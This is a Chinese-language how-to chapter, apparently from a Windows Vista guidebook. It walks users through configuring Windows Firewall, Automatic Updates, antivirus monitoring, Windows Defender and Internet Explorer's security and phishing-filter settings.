随着互联网的广泛应用，网络安全问题日益严重，各种黑客和恶意软件不断地通过互联网访问用户的计算机，给用户带来巨大的损失和威胁。据统计，目前互联网上大约有30%以上的用户曾经遭受过黑客的攻击，其中大多数的黑客入侵事件都是由于用户未能正确安装防火墙引起的。

### 1. 防火墙的作用

为了增强系统的安全性，保护系统不被非法入侵，Windows Vista 内置了一个功能强大的防火墙，防火墙可以监视数以千计的端口，无论是拨号连接还是宽带网络，它都可以阻止未授权的访问请求。防火墙的作用是防止不希望的、未授权的通信进出被保护的网络，安装防火墙可以达到以下目的：

-   (1) 可以限制他人进入内部网络，过滤掉不安全服务和非法用户；
-   (2) 防止入侵者接近用户的防御设施；
-   (3) 限定用户访问特殊站点；
-   (4) 为监视 Internet 安全提供方便。

### 2. 打开或关闭 Windows 防火墙

默认情况下，安装完 Windows Vista 后会自动开启 Windows 防火墙功能，大部分程序都被阻止通过防火墙进行通信，用户可以根据需要随时打开或关闭 Windows 防火墙。

-   (1) 打开 Windows 防火墙
    -   ①单击‘开始→控制面板→安全→Windows防火墙’命令，打开 Windows 防火墙窗口（见图2）。

    

-   (2) 关闭 Windows 防火墙
    除非用户已经安装并启用了其他防火墙，否则请不要关闭 Windows 防火墙。关闭 Windows 防火墙后可能会使计算机更容易受到蠕虫或黑客的侵害。
    -   ②单击‘开始→控制面板→安全→Windows防火墙’命令，打开 Windows 防火墙窗口。

### 3. 添加例外程序

当用户正常启动 Windows Vista 时，防火墙将自动打开，打开的防火墙一方面阻止了一些恶意程序的访问，另一方面也阻止了一些正常程序的使用。例如，我们经常使用的 QQ、MSN Messenger、迅雷、网际快车等网络工具，它们也会被防火墙所阻止，因此，我们可以给这些程序创建一个例外，这样它们就可以通过防火墙正常使用了。添加例外程序的具体操作步骤是：

-   (1) 单击‘开始→控制面板→安全→Windows防火墙’命令，打开 Windows 防火墙窗口。
-   (2) 单击窗口左边窗格中的‘允许程序通过 Windows 防火墙’链接，弹出‘用户账户控制’对话框，单击‘继续’按钮。
-   (3) 打开‘Windows 防火墙设置’窗口，在‘例外’选项卡的‘程序或端口’列表中，选中要允许通过防火墙的程序或服务（见图3）。
-   (4) 如果要允许的程序（或服务）没有在列表中列出，可以单击“添加程序”按钮，打开“添加程序”对话框，在“程序”列表中已经列出了一些 Windows Vista 侦测到的应用程序，单击选定某个应用程序，然后单击“确定”按钮，该程序就添加到了允许例外的程序和服务列表中。如果“程序”列表中没有出现需要的程序，可以单击“浏览”按钮自己查找需要的程序，然后选中它就可以了。
-   (5) 全部设置完毕，最后单击“确定”按钮，关闭防火墙设置。

### 4. 添加例外端口

如果用户知道应用程序通过哪些端口与 Internet 通信，也可以设置特定的允许例外的端口。例如，我们经常使用的 eMule 下载程序，它默认使用的端口是 TCP 端口 4662 和 UDP 端口 4672，我们可以把这两个端口添加到例外列表中，这样 eMule 就可以通过防火墙正常使用了。添加例外端口的具体步骤是：

-   （1）单击“开始→控制面板→安全→Windows防火墙”命令，打开 Windows 防火墙窗口。
-   （2）单击窗口左边窗格中的“允许程序通过 Windows 防火墙”链接，弹出“用户账户控制”对话框，单击“继续”按钮。
-   （3）打开“Windows 防火墙设置”窗口，单击“例外”选项卡中的“添加端口”按钮。
-   （4）打开“添加端口”对话框，在“名称”框中输入一个容易识别的名称，例如“eMule程序”，在“端口号”框中输入该程序使用的端口号，如“4662”，在“协议”项目中选中一种协议，如“TCP”。
-   （5）单击“确定”按钮，该端口即被添加到例外端口列表中。
-   （6）重复以上操作，可以把多个端口添加到例外列表中。
-   （7）全部设置完毕，最后单击“确定”按钮，关闭防火墙设置。

#### 小提示：添加例外程序和例外端口的比较

例外程序仅会在需要的时间段内打开，而例外端口无论用户是否使用，始终是打开的，端口也可能被其他恶意程序使用，因此安全性较差，提醒用户要及时关闭不需要的端口。

添加例外程序操作比较简单，它不需要知道应用程序所使用的端口号，而且在使用应用程序的时候就可以在弹出安全警报时完成设置，根本不用专门打开 Windows 防火墙设置界面。

### 5. 设置防火墙保护链接

如果用户有多个网络连接设置，对于不同的网络连接用户可以根据需要灵活设置不同的防火墙配置，这样可以使防火墙应用更灵活。为不同网络连接设置防火墙配置的具体步骤是：

-   （1）单击“开始→控制面板→安全→Windows防火墙”命令，打开 Windows 防火墙窗口。
-   （2）单击窗口左边窗格中的“启用或关闭 Windows 防火墙”链接，弹出“用户账户控制”对话框，单击“继续”按钮。
-   （3）打开“Windows 防火墙设置”窗口，根据前面介绍的方法设置各种防火墙配置，然后单击“高级”选项卡。
-   （4）在“网络连接”列表中选择将防火墙应用到哪个连接上（见图4）。

    

-   （5）单击“确定”按钮。

重复以上操作可以为不同的网络连接配置不同的防火墙。

### 6. 还原防火墙设置

如果已对某些 Windows 防火墙进行了更改，但是希望将其撤销，则可以将防火墙设置还原为最初的默认设置。还原防火墙默认设置的具体操作是：

-   （1）单击“开始→控制面板→安全→Windows防火墙”命令，打开 Windows 防火墙窗口。
-   （2）单击“更改设置”链接，弹出“用户账户控制”对话框，单击“继续”按钮。
-   （3）打开“Windows 防火墙设置”窗口，选择“高级”选项卡，单击“还原为默认值”按钮。
-   （4）系统弹出警告对话框，单击“是”按钮。
-   （5）最后单击“确定”按钮，关闭防火墙设置窗口。

## 三、自动更新

自动更新是 Windows Vista 的一项功能，当微软公司有重要更新发布时，它会及时提醒您下载和安装。使用自动更新可以在第一时间更新您的操作系统，修复系统漏洞，保护您的计算机安全。

### 1. 更新的种类

在默认情况下，Windows 自动更新是开启的。Windows## Vista完全攻略

Vista每天自动检查新的更新。更新分为三种类型：

- **重要的更新**：包括安全和危险性能的更新；
- **推荐的更新**：是帮助修复或预防问题的更新；
- **可选择的更新**：是较小的重要更新，如新的或更新的驱动程序。

可选择的更新不会自动安装，但是自动更新列表将显示任何可用的更新，以便你需要的时候下载和安装它们。

### 2.启用或禁用自动更新

(1) 单击 “开始→控制面板→安全→Windows Update” 命令，打开Windows自动更新窗口。

(2) 在左侧窗格中，单击“更改设置”，显示设置页面（见图5）。

(3) 根据需要，选择Windows安装更新的方法，可选项有：

- ① 自动安装更新（推荐）——可设置自动更新时间
- ② 下载更新，但让我选择是否安装更新
- ③ 检查更新，但是让我选择是否下载和安装更新
- ④ 从不检查更新（不推荐）

对于“推荐更新”下的“下载、安装或通知更新时包括推荐的更新”复选框，如果不选择，则对于推荐的更新是不会自动更新的。

(4) 设置完毕，单击“确定”按钮。

### 3.检查更新

(1) 单击 “开始→控制面板→安全→Windows Update”

(2) 在左侧窗格中，单击“检查更新”。程序将自动链接到微软网站检查新的更新，同时显示新近的更新，最后一次安装的更新和当前更新设置。

(3) 如果有新的更新，可以直接单击“安装更新”按钮进行安装。如果你想手工安装更新，可单击“查看可用更新”，打开可用更新列表中选中安装的更新，然后单击“安装”按钮。

### 4.查看更新历史记录

(1) 单击 “开始→控制面板→安全→Windows Update” 命令，打开Windows自动更新窗口。

(2) 在左侧窗格中，单击“查看更新历史记录”，显示出已安装的更新记录。

### 5.删除更新

如果一个安装的更新导致问题出现，你可以删除这个更新，方法如下：

(1) 单击 “开始→控制面板→安全→Windows Update” 命令，打开Windows自动更新窗口。

(2) 在左侧窗格中，单击“查看更新历史记录”，显示更新的历史记录列表。

(3) 单击“已安装的更新”，打开“卸载更新”页面。

(4) 右键单击删除的更新，然后在弹出菜单中单击“卸载”命令。

(5) 弹出确认对话框，单击“是”按钮，即可开始卸载。

### 6.隐藏更新

如果你不想下载和安装某个更新，可以把它隐藏起来，这样设置之后，即使你把Windows自动更新设置为自动下载和安装所有更新，这个被隐藏起来的更新也不会被下载和安装。

(1) 单击 “开始→控制面板→安全→Windows Update” 命令，打开Windows自动更新窗口。

(2) 在左侧窗格中，单击“检查更新”，Windows Vista自动检查更新，检查之后，单击“查看可用更新”。

(3) 在希望安装的更新列表中，选中你不想下载和安装的更新，右键单击它。

(4) 在弹出的右键菜单中选择“隐藏更新”命令。

### 7.还原和安装隐藏更新

对于隐藏起来的更新，在需要时，你还可以还原它，以便能够正常安装。

(1) 单击 “开始→控制面板→安全→Windows Update” 命令，打开Windows自动更新窗口。

(2) 在左侧窗格中，单击“还原隐藏的更新”。

(3) 在列表中选中要还原的更新，然后单击“还原”按钮。

(4) 进行“还原”操作以后，就可以正常下载和安装该更新了。

## 四、病毒防护

恶意软件是专门用来故意损坏计算机的软件，如病毒、蠕虫、木马都属于恶意软件。为了帮助保护计算机免受恶意软件的攻击，请确保使用最新的防病毒软件和反间谍软件。

恶意软件保护包括两部分：病毒防护和Windows Defender。其中Windows Defender主要用来保护计算机免受间谍软件和其他恶意软件的侵害，这个内容在下面有详细介绍，本节主要介绍病毒防护方面的知识。

### 1.安装防病毒软件

病毒是一种有破坏性或欺骗性的程序，抵御病毒最有效的方法是安装防病毒软件，并且启用实时扫描功能。由于 Windows Vista 本身没有带防病毒程序，用户必须要安装第三方的防病毒软件才能使 Windows Vista 系统更安全。正因为防病毒软件如此重要，所以如果用户没有安装防病毒软件，那么每次启动计算机就会在系统托盘中出现警告信息，这个警告信息就是由安全中心发出的。打开安全中心，展开“恶意软件保护”，在“病毒防护”中系统会给出提示，没有发现防病毒软件。如果安装了防病毒软件，就可以在“病毒防护”中看到安装的防病毒软件名称及当前状态（见图6）。

当然在目前情况下，由于一些杀毒软件没有开发出针对Windows Vista的版本，所以有些杀毒软件Windows Vista不能够检测出来。

### 2.更新防病毒软件

由于病毒出现的频率非常高，新病毒不断出现，安装的防病毒软件只有定期更新，才能有效防止新病毒的危害。大多数防病毒软件都可以自动升级更新，也可以手动进行更新。如果你的防病毒软件没有及时更新，Windows Vista将可以监视其状态，并在安全中心给出提示，以便你能及时更新。更新防病毒软件的操作是：

- 1. 单击“开始→控制面板→安全→安全中心”命令，打开“安全中心”。
- 2. 单击“恶意软件保护”展开它。如果Windows Vista可以检测到防病毒软件，则它将列在“病毒防护”下。
- 3. 如果需要更新软件，请单击“立即更新”。

### 3.使用Windows找不到的防病毒软件

防病毒软件可以保护计算机免受病毒和其他安全威胁的侵害。Windows会进行定期检查，以查看计算机上是否已安装防病毒软件，其是否正在运行以及是否为最新。防病毒程序的状态在Windows安全中心显示。由于Windows Vista不能检测出所有的防病毒程序，而且某些防病毒程序不会将其状态报告给Windows，所以有时即使安装了防病毒软件，在“安全中心”的“病毒防护”中也看不到防病毒程序的名称。对于这种情况，我们可以使用下面的方法来指定你正在使用的但是Windows找不到的防病毒程序：

- 1. 单击“开始→控制面板→安全→安全中心”命令，打开“安全中心”。
- 2. 单击“恶意软件防护”，然后在“病毒防护”下单击“显示可用选项”。
- 3. 在“Windows安全中心”对话框中，单击“我已经安装了防病毒程序并将自己监视其状态”。安全中心将把你的防病毒设置显示为“未监视”，你将不再收到有关病毒防护软件的通知。

**小提示：** 当“病毒防护”设置标记为“启用”时，“显示可用选项”链接将不可用。

### 4.禁用防病毒软件

大多数情况下，不应该禁用防病毒软件。如果为了安装其他软件必须暂时禁用防病毒软件，则应该在安装完成后尽快重新启用它。

- 1. 单击“开始→控制面板→安全→安全中心”命令，打开“安全中心”。
- 2. 单击“恶意软件防护”。如果Windows可以检测防病毒软件，则它将列在“病毒防护”下。
- 3. 如果软件处于打开状态，请检查该软件附带的帮助，以获得有关将其禁用的信息。

**小提示：** Windows Vista不能检测出所有防病毒软件，而且有些防病毒软件不会将其状态报告给Windows。如果防病毒软件未在Windows安全中心显示，并且你不确定如何找到它，请尝试以下方法：

- 1. 在“开始”菜单的程序列表中查找防病毒软件。
- 2. 在“开始”菜单的“搜索”框中键入软件或发行者的名称。
- 3. 查找任务栏通知区域中的图标。

### 5.关闭安全中心警报

在默认情况下，当安全中心监视到一个危险状态时（杀毒软件过期，关闭防火墙，禁用自动更新等），都会发出一个安全提示信息，同时在托盘区显示一个红色的图标，如果你不想看到这个警告信息，可以用下面的方法关闭Windows安全中心发出的警报。

- 1. 单击“开始→控制面板→安全→安全中心”命令，打开“安全中心”。
- 2. 在左侧窗格中，单击“更改安全中心通知我的方法”。
- 3. 在打开的窗口中单击所需的警报选项（见图7）。

**小提示：** 关闭安全中心通知后，仍然可以看到防火墙、恶意软件防护和安全中心其他设置的状态。

## 五、Windows Defender

Windows Defender是Windows Vista自带的一个反间谍软件和其他恶意软件（如广告软件）的安全工具。它会在Windows Vista启动时在后台默默运行来保护你的计算机免受间谍软件的侵害。与其他杀毒软件类似，Windows Defender有一个用来保存间谍软件信息的定义文件，就像病毒库一样，它必须要定期更新。Windows Defender有自动更新定义和自动检查系统功能，当然你可以手工来进行自动更新和运行扫描程序。

- 1. Windows Defender 提供的三种保护方法
  (1) 实时保护
  当间谍软件或其他可能不需要的软件试图在计算机上自行安装或运行时，Windows Defender 会发出警报。如果程序试图更改重要的 Windows 设置，它也会发出警报。
  (2) SpyNet 社区
  联机 Microsoft SpyNet 社区可帮助用户查看其他人是如何响应未按风险分类的软件的。查看社区中其他成员是否允许使用此软件，能够帮助用户选择是否允许此软件在计算机上运行。同样，如果加入社区，用户的选择也将添加到社区分级以帮助其他人作出选择。
  (3) 扫描选项
  使用 Windows Defender 可以扫描可能已安装到计算机上的间谍软件和其他可能不需要的软件，定期计划扫描，还可以自动删除扫描过程中检测到的任何恶意软件。

- 2. 打开/关闭 Windows Defender
  (1) 单击“开始→控制面板→安全→ Windows Defender”命令，打开 Windows Defender。
  (2) 单击“工具”按钮，然后单击“工具和设置”的“选项”。
  (3) 在“管理员选项”中选中“使用 Windows Defender”复选框。
  (4) 单击“保存”按钮。
  要打开已经关闭的 Windows Defender，只需打开安全中心，将“间谍软件和其他恶意软件保护”立即启用即可。

- 3. 打开/关闭 Windows Defender 实时保护
  若要阻止间谍软件和其他可能不需要的软件感染计算机，请打开 Windows Defender 实时保护并选择所有实时保护选项。当间谍软件和其他可能不需要的软件试图在计算机上安装或运行时，实时保护会发出警报。如果程序试图更改重要的 Windows 设置，也会发出警报。Windows Defender 的警报等级分为忽略、隔离、删除、始终允许、许可、拒绝六种，你可以根据需要选择。
  (1) 单击“开始→控制面板→安全→ Windows Defender”命令，打开 Windows Defender。
  (2) 单击“工具”按钮，然后单击“工具和设置”的“选项”。
  (3) 在“实时保护选项”下，选中“使用实时保护（推荐）”复选项，然后根据需要在下面选择所需选项。为帮助你保护隐私和计算机，建议你选中所有实时保护选项内容。
  (4) 在“选择 Windows Defender 应该通知您的情况”和“选择何时在通知区域显示 Windows Defender 图标”下，选择所需选项。
  (5) 单击“保存”按钮。

- 4. 更新 Windows Defender 定义
  Windows Defender 定义只有及时更新，才能保证有效维护计算机免受间谍软件的侵害。定义可以自动更新也可以手工进行更新。
  (1) 使用自动更新
  ①单击“开始→控制面板→安全→ Windows Defender”命令，打开 Windows Defender。
  ②单击“工具”按钮，然后单击“工具和设置”的“选项”。
  ③在“自动扫描”下，选中“自动扫描计算机（推荐）”选项。
  ④选中“扫描前检查更新的定义”复选框。
  ⑤单击“保存”按钮。
  (2) 使用手动更新
  ①单击“开始→控制面板→安全→ Windows Defender”命令，打开 Windows Defender。
  ②单击“帮助”按钮旁边的箭头，然后单击“检查更新”。

- 5. 扫描间谍软件
  在 Windows Defender 中，可以选择运行计算机的“快速扫描”或“完整系统扫描”。如果怀疑间谍软件已经感染了计算机的某特定区域，则可以仅选择要检查的驱动器和文件夹进行自定义扫描。“快速扫描”检查的是计算机上最有可能感染间谍软件的硬盘。“完整扫描”检查硬盘上所有文件和当前运行的所有程序，但可能会引起计算机运行缓慢，直到扫描完成。建议你计划每日快速扫描。如果怀疑计算机被间谍软件感染，则随时进行完整扫描。
  (1) 运行快速扫描
  ①单击“开始→控制面板→安全→ Windows Defender”命令，打开 Windows Defender。
  ②单击程序界面上部的“扫描”按钮，开始进行扫描。在扫描过程中可以随时单击“停止扫描”按钮结束扫描操作。
  (2) 扫描计算机的所有区域
  ①单击“开始→控制面板→安全→ Windows Defender”命令，打开 Windows Defender。
  ②单击“扫描”按钮旁边的“向下箭头”，然后单击“完整扫描”。
  (3) 仅扫描计算机特定区域（自定义扫描）
  可以选择 Windows Defender 要扫描的计算机上的特定位置。但是，如果检测到可能不需要的或恶意软件，Windows Defender将运行快速扫描，这样可以在需要的情况下将检测到的项从计算机的其他区域中删除。
  - 1. 单击“开始→控制面板→安全→Windows Defender”命令，打开Windows Defender。
  - 2. 单击“扫描”按钮旁边的向下箭头，然后单击“自定义扫描”。
  - 3. 单击“扫描选定的驱动器和文件夹”，然后单击“选择”。
  - 4. 选择要扫描的驱动器和文件夹，然后单击“确定”。

### （4）选择高级扫描选项

扫描计算机时，可以从四个其他选项中进行选择：
扫描存档文件和文件夹的内容，查看是否存在潜在威胁。扫描这些位置可能会延长扫描时间，但间谍软件和其他可能不需要的软件会自行安装并试图“隐藏”在这些位置中。
使用启发式检测尚未分析风险的软件的有害或不需要的行为。Windows Defender使用定义文件识别已知威胁，但它还可以检测未在定义文件中列出的软件的可能有害或不需要的行为，并向你发出警报。有关定义文件的详细信息，请参阅保持Windows Defender定义为最新。
在对检测到的项目应用操作之前创建还原点。由于可以将Windows Defender设置为自动删除检测到的项目，因此如果要使用原本不想删除的软件，则可以选择此选项还还原系统设置。
不扫描这些文件或位置。使用此选项可以选择任何你不想要Windows Defender扫描的文件和文件夹。

具体操作如下：

- 1. 单击“开始→控制面板→安全→Windows Defender”命令，打开Windows Defender。
- 2. 单击“工具”，然后单击“选项”。
- 3. 在“高级选项”下，选中要使用的每个选项旁边的复选框。
- 4. 如果不想让Windows Defender扫描计算机的某些区域，则在“不扫描这些文件或位置”下单击“添加”。
- 5. 浏览到不想扫描的文件或文件夹，然后单击“确定”。对每个不想扫描的文件或文件夹重复此步骤。
- 6. 选择了高级选项后，单击“保存”。

### 6.设置自动扫描时间

用户可以根据自己的需要自由设置扫描时间，但为安全起见，建议你计划每日运行“快速扫描”。“快速扫描”将检查间谍软件或其他可能不需要的软件最有可能感染的计算机区域。如果要Windows Defender检查计算机上的所有文件和程序，请运行或计划“完整扫描”。若要提高计算机的安全性，可以选择在扫描过程中自动删除检测到的间谍软件和其他可能不需要的软件。

- 1. 单击“开始→控制面板→安全→Windows Defender”命令，打开Windows Defender。
- 2. 单击“工具”，然后单击“选项”。
- 3. 在“自动扫描”下，选中“自动扫描计算机（推荐）”复选框，然后选择频率、时间和要运行的扫描类型。
- 4. 若要在扫描后自动删除间谍软件或其他可能不需要的软件，请选中“扫描过程中将默认操作应用到检测到的项目”复选框。
- 5. 在“默认操作”下，选择要应用到每个Windows Defender警报的操作，然后单击“保存”。

### 7.查看扫描历史记录

- 1. 单击“开始→控制面板→安全→Windows Defender”命令，打开Windows Defender。
- 2. 单击程序界面上部的“历史记录”，显示历史记录列表。
- 3. 如果想删除列表中的所有项目，请单击“清除历史记录”按钮。

### 8.添加/删除Windows Defender允许列表中的项目

对于一些你信任的软件，你可以将它添加到Windows Defender允许列表中，这样就可以禁止Windows Defender监视它，同时避免Windows Defender发出的警报。
（1）将项目添加到允许列表
当Windows Defender再次对该软件发出警报时，单击“操作”菜单中“警报”对话框上的“始终允许”，就可以将软件添加到允许列表中，以后Windows Defender就不会再发出警报了。
（2）从允许列表中删除项目
从Windows Defender允许列表中删除某个项目后，Windows Defender就又恢复对该软件的监视。

- 1. 单击“开始→控制面板→安全→Windows Defender”命令，打开Windows Defender。
- 2. 单击“工具”，然后单击“允许的项目”。
- 3. 选择要再次监视的项目，然后单击“从列表中删除”。

### 9.删除/还原Windows Defender隔离的项目

对于一些有风险的软件，Windows Defender在检测出以后会将它隔离，也就是将这个有风险的软件移动到计算机上的其他位置，然后在你选择恢复或删除此软件之前，阻止其运行。如果你想删除或还原被隔离的软件，可以进行如下操作：

- 1. 单击“开始→控制面板→安全→Windows Defender”命令，打开Windows Defender。
- 2. 单击“工具”，然后单击“隔离的项目”，打开隔离项目列表。
- 3. 查看每个项目，然后对每个项目单击“删除”或“还原”按钮。如果要从计算机中删除所有隔离的项目，则单击“全部删除”按钮。

### 10.使用软件资源管理器

使用Windows Defender中的软件资源管理器可以查看和监视当前在计算机上运行的会影响隐私或计算机安全的所有软件的详细信息。例如，可以看到哪些程序会在启动Windows时自动运行，以及有关这些程序如何与重要的Windows程序和服务进行交互的信息。

### 软件资源管理器

（1）软件资源管理器可帮助你监视下列各项内容：

- 启动程序：启动 Windows 时，无论是否指示，都会自动运行的程序。
- 当前运行程序：当前在屏幕上或后台中运行的程序。
- 网络连接程序：可以连接到 Internet 或者家庭或办公室网络的程序或进程。
- Winsock 服务提供程序：执行 Windows 的低级别网络连接和通信服务的程序以及 Windows 上运行的程序。这些程序通常具有对操作系统的重要区域的访问权限。

（2）使用软件资源管理器查看计算机上运行的软件的操作步骤

**小提示：** 使用软件资源管理器可以查看和管理你使用的程序。但是，若要查看和管理计算机上所有用户的程序和其他软件，需要提供管理员密码或权限。

- 单击“开始→控制面板→安全→Windows Defender”命令，打开 Windows Defender。
- 单击“工具”，然后单击“软件资源管理器”，打开“软件资源管理器”界面。
- 在“类别”下拉列表中，选择要监视的软件类型。若要监视计算机上所有用户使用的软件，请单击“显示所有用户的软件信息”。
- 在左边的列表中选中一个程序，单击“刷新”按钮可以刷新当前进程，单击“结束进程”按钮可以结束当前选中的程序进程，单击“任务管理器”按钮可以打开任务管理器进行进程管理。

### 加入 Microsoft SpyNet 社区

如果加入 Microsoft SpyNet，Windows Defender 将自动向 Microsoft 发送有关间谍软件、可能不需要的软件及软件或由尚未进行风险分析的软件的更改的信息，还会向 Microsoft 报告应用于该软件的操作。你将了解其他人对警告（有关尚未进行分析的软件）进行响应的方式，了解其他人的响应方式可以帮助你确定应该执行的操作。如果选择参与，则你对这些警告所执行的操作将被添加到社区分级以帮助他人。加入 Microsoft SpyNet 社区的操作如下：

- 单击“开始→控制面板→安全→Windows Defender”命令，打开 Windows Defender。
- 单击“工具”，然后单击“Microsoft SpyNet”。
- 通过单击“以基本成员的身份加入”或“以高级成员的身份加入”，选择你想要的参与等级，然后单击“保存”。

## Internet 安全设置

互联网并不是一个安全的环境，在网上浏览时我们将时刻面临着被植入木马、感染病毒、黑客入侵等危险，因此，对 Internet Explorer 进行安全设置有助于用户在网络上更好地保护自己。Internet Explorer 提供了多种安全功能，用来保护用户上网时的安全和隐私，这些功能有：设置 Internet 安全域、隐私保护、保护模式、仿冒网站筛选、弹出窗口阻止程序、加载项管理器等，下面我们就逐一了解这些安全功能。

### 保护模式

Internet Explorer 的保护模式是使在计算机上安装恶意软件更为困难的一项功能，使用保护模式，可以帮助你免受试图在你的计算机上保存文件或安装程序的网站的攻击。

**（1）提供保护的方式**

Internet Explorer 保护模式又称为低权限 Internet Explorer（LoRIE），它使恶意软件更难以在你的计算机上安装和运行，为 Windows 提供了新级别的安全和数据保护。它通过以下方式提供此保护：

- 与操作系统中的其他应用程序隔离运行。
- 未得到用户明确同意，限制写入 Temporary Internet Files 以外的任何位置。
- 防止 Internet Explorer 修改用户或系统文件和设置。

**（2）打开/关闭保护模式功能**

默认情况下，系统自动启用了保护模式，在 Internet Explorer 中的状态栏上显示一个图标，表明你正在此模式下运行。在保护模式下，即使是作为标准用户登录，也可以正常浏览 Internet 和安装所需软件。这样，就不会由于使用管理员账户登录而使计算机处于风险之中。

- 打开 IE，单击“工具→Internet 选项”，打开 Internet 选项对话框。
- 选择“安全”选项卡。
- 在选择区域中选中“Internet”图标。
- 在“该区域的安全级别”中选中或取消“启用保护模式”选项。
- 单击“确定”按钮。

### 设置 Internet 安全区域

在默认情况下，Internet 区域包含不在用户的电脑或互联网上的全部站点，或包含分配到其他保护区域的站点。Internet 区域的默认安全级别为“中”，用户可以根据需要改变安全级别设置。

- 打开 IE，单击“工具→Internet 选项”，打开 Internet 选项对话框。
- 选择“安全”选项卡。
- 单击“Internet”图标。
- 请执行下列操作之一：
  - 若要选择预设置的安全级别，请拖动滑块；
  - 若要更改单个安全设置，请单击“自定义级别”。根据需要更改设置，完成后单击“确定”；
  - 若要将 Internet Explorer 重新设置为默认安全级别，请单击“默认级别”。
- 完成安全设置更改后，请单击“确定”。

### 隐私设置

在网站上普遍使用一种被称为 Cookies 的小文件来跟踪用户的首选项和信息，在 IE 中可以让你轻松控制在计算机上的 Cookies。

### 仿冒网站筛选

仿冒网站筛选是用来防止网络钓鱼的。由于一些欺骗性网站假冒成一些正规的网站来要求用户提供个人信息（如账户和密码），然后窃取用户的信息从事一些非法的活动，如窃取网上银行资金等。IE7中的仿冒网站筛选功能就是帮助用户检测仿冒网站的。

仿冒网站筛选可识别两种类型的网站：可疑的网页仿冒网站、已知的网页仿冒网站。如果网上冲浪时访问了可疑的网页仿冒网站，仿冒网站筛选会显示一个黄色警告；如果试图访问已知的网页仿冒网站，仿冒网站筛选将阻止你访问该网站并显示一个红色警告页面，表明该网站不可用。你无法在该网站的任何 Web 窗体中输入任何信息。

仿冒网站筛选使用三种方法来帮助你不受仿冒骗局的欺骗。首先，它会将访问的网站地址与向 Microsoft 报告为合法站点的站点列表进行比较。该列表保存在您的计算机上。其次，它帮助分析访问的站点，以查看它们是否具有仿冒网站中常见的特征。最后，在你同意的前提下，仿冒网站筛选会将一些网站地址发送给 Microsoft，以便根据频繁更新的已报告仿冒网站列表进行进一步的检查。

如果正在访问的站点位于已报告仿冒网站列表中，Internet Explorer 将显示警告网页并且在地址栏上显示通知。可以在警告网页上选择继续操作或关闭页面。如果网站具有仿冒站点中常见的特征，但是并不位于该列表中，Internet Explorer 将仅在地址栏中通知您该网站可能是仿冒网站。

**（1）打开/关闭仿冒网站筛选功能**

要打开或关闭仿冒网站筛选，请按照下列步骤操作：

- 启动 Internet Explorer。
- 在“工具”菜单上，指向“仿冒网站筛选”，然后单击“打开自动网站检查”或“关闭自动网站检查”，弹出仿冒网站筛选对话框。
- 根据需要选择“打开自动仿冒网站筛选”或“关闭自动仿冒网站筛选”选项。
- 确认选择，然后单击“确定”按钮。

**（2）手动检查网站**

如果选择不自动检查网站，仿冒网站筛选会在 Internet Explorer 状态栏上显示图标。若要检查网站，请单击该图标，然后单击“检查此网站”。也可以按照以下步骤操作来从 Internet Explorer 检查网站：

- 启动 Internet Explorer。
- 转到希望检查的网站。
- 单击“工具”按钮，再单击“仿冒网站筛选”，然后单击“检查此网站”。

### 报告仿冒网站

要将你怀疑的网站报告为仿冒网站，请按照下列步骤操作：

- 启动 Internet Explorer。
- 在“工具”菜单上，指向“仿冒网站筛选”，然后单击“报告此网站”，打开报告网站页面。
- 选择网站所用的语言。
- 选中“我认为这是一个仿冒网站”复选框（见图8）。



- 单击“提交”按钮。

### 弹出窗口阻止程序

许多网站都使用弹出窗口来放置广告内容，它们不管用户是否想看，只要浏览网站就会立即打开，给用户带来无尽的烦恼。弹出窗口阻止程序可以使用户阻止网站未经允许所弹出的大多数浏览器窗口，给用户带来更好的 web 浏览体验。

**（1）打开/关闭弹出式窗口阻止程序**

弹出式窗口阻止程序在默认情况下处于打开状态，当用户浏览到具有弹出窗口的 WEB 页面时，IE 会自动阻止弹出窗口的显示，同时在 IE 浏览器窗口的 WEB 页显示区域的最顶端，会出现一个信息栏，提示用户已经拦截了弹出窗口。只有当弹出式窗口阻止程序被关闭时，才需要打开它。

- 打开 Internet Explorer。
- 单击“工具”按钮，然后单击“弹出式窗口阻止程序”。
- 请执行下列操作之一：
  - 若要关闭弹出式窗口阻止程序，请单击“关闭弹出式窗口阻止程序”；
  - 若要打开弹出式窗口阻止程序，请单击“打开弹出式窗口阻止程序”。

**（2）允许特定网站上的弹出式窗口**

有时候用户还会希望某些特定网站的自动弹出窗口能够显示出来，以便查看相关的信息，在 IE 中可以方便地设置特定网站允许显示弹出窗口。

- 打开 Internet Explorer。
- 单击“工具”按钮，单击“弹出式窗口阻止程序”，然后单击“弹出式窗口阻止程序设置”。
- 在“要允许的网站地址”框中，键入要查看其中的弹出式窗口的网站地址（或 URL），然后单击“添加”按钮，这个网站就被添加到“允许的站点”列表中去了。
- 对于每一个要允许其中的弹出式窗口的网站，请重复步骤 3。
- 完成添加网站后，请单击“关闭”按钮。

**（3）显示已阻止的弹出式窗口**

如果被阻止的弹出窗口上有用户感兴趣的信息，那么在 IE 中可以方便地设置让其重新显示。只要拦截到了窗口，除了在信息栏中显示提示信息外，还在状态栏中显示一个图标。

- 打开 Internet Explorer。
- 打开带有弹出式窗口的网站，然后在信息栏通知你弹出式窗口已被阻止时，单击信息栏。
- 从弹出的快捷菜单中单击“临时允许弹出窗口”。

**小提示：** 单击链接打开带有弹出式窗口的网站时，你可以通过按 Ctrl+Alt 允许显示弹出式窗口。

**（4）阻止所有弹出窗口**

默认情况下，弹出窗口阻止程序会将筛选级别设为中等，这意味着它将阻止大多数自动弹出的窗口。如果用户想阻止所有的弹出窗口，可以进行如下设置：

- 打开 Internet Explorer。
- 单击“工具”按钮，单击“弹出式窗口阻止程序”，然后单击“弹出式窗口阻止程序设置”。
- 在“筛选器级别”下，选择“高：阻止所有弹出式窗口”。
- 单击“关闭”按钮。

**（5）更改弹出式窗口阻止程序设置**

- 打开 Internet Explorer。
- 单击“工具”按钮，单击“弹出式窗口阻止程序”，然后单击“弹出式窗口阻止程序设置”。
- 根据需要进行更改。可以添加允许的显示站点；可以设置在阻止弹出窗口时是否播放声音，是否显示信息栏；在“筛选级别”下拉菜单中可以选择筛选的级别。
- 全部设置完毕，单击“关闭”按钮。

**（6）让弹出式窗口显示在选项卡中**

默认情况下，弹出式窗口将显示在单独的窗口中。如果希望让弹出式窗口显示在选项卡中，请执行以下步骤：

- 打开 Internet Explorer。
- 单击“工具”按钮，然后单击“Internet 选项”。
- 单击“常规”选项卡，然后在“选项卡”部分单击“设置”。
- 在“选项卡式浏览设置”对话框中，单击“始终在新选项卡中打开弹出式窗口”，然后两次单击“确定”按钮。

### 管理加载项

